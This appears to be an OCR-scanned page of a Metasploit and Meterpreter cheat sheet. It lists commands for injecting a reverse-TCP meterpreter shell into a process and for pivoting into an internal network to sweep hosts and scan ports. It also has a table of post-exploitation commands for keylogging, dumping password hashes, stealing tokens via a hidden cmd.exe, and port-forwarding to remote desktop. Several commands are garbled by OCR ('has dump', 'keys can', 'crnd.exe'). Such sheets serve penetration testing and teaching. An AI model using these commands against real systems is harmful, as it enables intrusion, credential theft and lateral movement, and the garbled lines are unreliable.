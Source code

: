 ### return the shell \(by default it will run notepad and injection\)


```text
msf use post/windows/manage/multi meterpreter inject
msf set IPLIST attack ip 
msf set LPORT callback port
msf set PIDLIST PID to inject, default creates new notepad
msf set PAYLOAD windows/meterpreter/reverse_tcp
msf set SESSION meterpreter session ID
```

### Display the html banner in the internal network

```text
msf route add ip/range netmask meterpreter ID
msf use post/multi/gather/ping sweep # Set options and run
msf use /auxiliary/scanner/portscan/tcp # Set options and run
msf hosts-u-S x.x.x -R #Searches for x.x.x.' and sets
# RHOSTS
msf use auxiliary/scanner/http/http version # Set options and run
msf services -v -p 80-S x.x.x -R - #Displays IPs x.x.x.' with port
#80 open
```

## Meterpreter

| **Command** | **Explanation** |
| :--- | :--- |
| Help | List of available commands
| sysinfo | Display system information
| p.s List of processes
| getpid | List of available PID |
| upload file C:\Program Files\ | Upload file
| download file | Get the file
| reg command | Interaction with the registry
| rev2self | Back to main user
| shell | Transfer to interactive shell
| migrate PID | Change to another PID |
| background | The current process behind the background
| keys can \(start\|stop\|dump\) | Start/stop/delete keylogger |
| execute -f cmd.exe -i | Run cmd.exe and interact with it
| execute -f crnd.exe -i -H -t | Run cmd.exe as a hidden process and get all the tokens
| has dump | Get all local hashes
| run script | Running the script \(/scripts/meterpreter\) |
| port fwd \[add I delete\] -lL 127.0.0.1 443 -r 3.3.3.3 -p 3389 | Create port forward on port 3389 in the current session and remote desktop access on port 443 |
